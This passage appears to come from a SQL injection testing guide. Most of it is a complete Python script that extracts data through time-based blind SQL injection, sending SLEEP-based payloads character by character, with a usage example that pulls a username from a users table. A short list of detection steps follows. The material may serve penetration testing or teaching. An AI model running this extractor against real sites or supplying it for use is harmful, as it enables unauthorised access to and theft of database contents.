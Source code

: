 ### Time-Based Blind Extraction
```python
#!/usr/bin/env python3
import requests
import time
import string

def extract_data_time(url, injection_point, query, delay=5):
    """Extract data using time-based blind SQL injection"""
    result = ""
    position = 1
    
    while True:
        found_char = None
        for char in string.printable:
            payload = f"' AND IF(ASCII(SUBSTRING(({query}),{position},1))={ord(char)},SLEEP({delay}),0)--"
            test_url = url.replace(injection_point, payload)
            
            start_time = time.time()
            try:
                response = requests.get(test_url, timeout=delay+2)
                elapsed_time = time.time() - start_time
                
                if elapsed_time >= delay:
                    found_char = char
                    break
            except requests.Timeout:
                found_char = char
                break
        
        if found_char:
            result += found_char
            print(f"Position {position}: {found_char}")
            position += 1
        else:
            break
    
    return result

# Usage
url = "http://target.com/page?id=INJECT"
username = extract_data_time(url, "INJECT", "SELECT username FROM users LIMIT 1")
print(f"Username: {username}")
```

## Testing Methodology

### 1. Detection Phase
1. **Input validation testing**: Test all parameters with basic payloads
2. **Error message analysis**: Look for database-specific error messages
3. **Response analysis**: Compare responses for different payloads
4. **Time analysis**: Test for time-based responses
